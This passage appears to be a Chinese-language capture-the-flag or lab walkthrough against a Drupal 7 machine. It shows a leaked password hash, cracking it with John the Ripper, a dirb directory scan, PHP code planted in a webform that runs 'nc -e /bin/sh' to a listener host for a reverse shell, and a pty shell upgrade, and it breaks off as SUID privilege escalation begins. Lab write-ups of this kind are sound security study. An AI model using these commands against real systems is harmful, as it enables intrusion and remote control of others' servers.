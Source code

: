 ```
[05:16:06] [INFO] resumed: 'john@blahsdfsfd.org'
[05:16:06] [INFO] resumed: '$S$DqupvJbxVmqjr6cYePnx2A891ln7lsuku/3if/oRVZJaz5mKC2vF'
[05:16:06] [INFO] resumed: '0'
[05:16:06] [INFO] resumed: ''
```

爆破一下hash值,使用john这里提示了  
爆破成功了john的密码turtle

```
C:\root\Desktop> john pass.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (Drupal7, $S$ [SHA512 128/128 AVX 2x])
No password hashes left to crack (see FAQ)
C:\root\Desktop> john --show pass.txt
john:turtle

1 password hash cracked, 0 left
```

扫描一下目录

```
dirb http://192.168.124.152
```

发现user目录是登录的地方

登录成功,发现这个位置可以添加php代码，直接尝试反弹shell

```
http://192.168.124.152/node/3#overlay=node/3/webform/configure
```

```
<p>flag</p>
<?php
system("nc -e /bin/sh 192.168.124.139  4444");
?>
```

然后这个页面随便输出什么点击提交等待反弹的shell  

![upload successful](https://lnng.top/images/pasted-273.png)

**upload successful**

  
然后反弹交互shell

```
python -c 'import pty;pty.spawn("/bin/bash")'
```

### [](https://lnng.top/posts/2ea3.html#%E6%8F%90%E6%9D%83-3 "提权")提权

先尝试suid提权
